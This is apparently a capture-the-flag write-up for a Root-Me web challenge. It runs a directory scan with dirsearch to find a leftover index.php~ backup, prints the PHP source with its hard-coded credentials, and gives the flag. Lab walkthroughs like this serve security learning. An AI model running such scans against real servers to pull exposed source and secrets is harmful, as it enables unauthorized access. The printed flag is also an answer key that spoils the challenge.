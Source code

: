 ```yaml
---
title: Backup file
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 15
* Link: [https://www.root-me.org/en/Challenges/Web-Server/Backup-file](https://www.root-me.org/en/Challenges/Web-Server/Backup-file)

## Statement

> No clue.

## Solution

```sh
dirsearch -u http://challenge01.root-me.org/web-serveur/ch11/
```

```sh
200 -  531B  - /web-serveur/ch11/index.php
200 -  843B  - /web-serveur/ch11/index.php~
```

Check both of them, we have
```php
<?php

$username="ch11";
$password="OCCY9AcNm1tj";


echo '
      <html>
      <body>
	<h1>Authentication v 0.00</h1>
';

if ($_POST["username"]!="" && $_POST["password"]!=""){
    if ($_POST["username"]==$user && $_POST["password"]==$password)
    {
      print("<h2>Welcome back {$row['username']} !</h2>");
      print("<h3>Your informations :</h3><p>- username : $row[username]</p><br />");
      print("To validate the challenge use this password</b>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");

    }
}

echo '
	<form action="" method="post">
	  Login&nbsp;<br/>
	  <input type="text" name="username" /><br/><br/>
	  Password&nbsp;<br/>
	  <input type="password" name="password" /><br/><br/>
	  <br/><br/>
	  <input type="submit" value="connect" /><br/><br/>
	</form>
      </body>
      </html>
';

?> 
```

The flag is
```
OCCY9AcNm1tj
```